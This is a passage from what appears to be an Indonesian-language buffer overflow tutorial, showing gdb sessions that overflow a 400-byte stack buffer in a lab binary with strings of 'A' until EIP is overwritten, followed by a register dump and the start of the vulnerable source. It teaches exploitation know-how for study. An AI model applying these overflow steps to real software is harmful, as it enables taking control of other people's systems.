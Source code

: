 ```
Start it from the beginning? (y or n) y
Starting program: /root/bof `perl -e 'print "A" x 406'`

Program received signal SIGSEGV, Segmentation fault.
0xb7004141 in ?? ()
(gdb)
```
ok, disitu sekarang sudah terlihat kita sedikit lagi mengoverwrite total eip.
perhatikan -> 0xb7004141
disitu ada 4141 , 41 adalah huruf "A" dalam bilangan hexadesimal . namun kita perlu mengoverwrite total address EIP tersebut.
```
(gdb) run `perl -e 'print "A" x 407'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/bof `perl -e 'print "A" x 407'`

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb)
````
sedikit lagi...
```
(gdb) run `perl -e 'print "A" x 408'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/bof `perl -e 'print "A" x 408'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```
disitu terlihat bahwa kita telah mengoverwrite total register EIP.
perhatikan -> 0x41414141
kita sudah berhasil mengoverwritenya dengan huruf "A" dengan panjang string 408.
```
(gdb) i r
eax            0x0      0
ecx            0xbffff0b7       -1073745737
edx            0x199    409
ebx            0xb7fc9ff4       -1208180748
esp            0xbffff250       0xbffff250
ebp            0x41414141       0x41414141
esi            0x8048400        134513664
edi            0x8048310        134513424
eip            0x41414141       0x41414141 <-- ter overwrite !!
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
```
sekarang yang perlu kita lakukan adalah dimana keberadaan register ESP (stack pointer).
```
(gdb) list 1
1       #include <stdio.h>
2       #include <string.h>
3
4       int main(int argc, char** argv)
5       {
6               char buffer[400];
```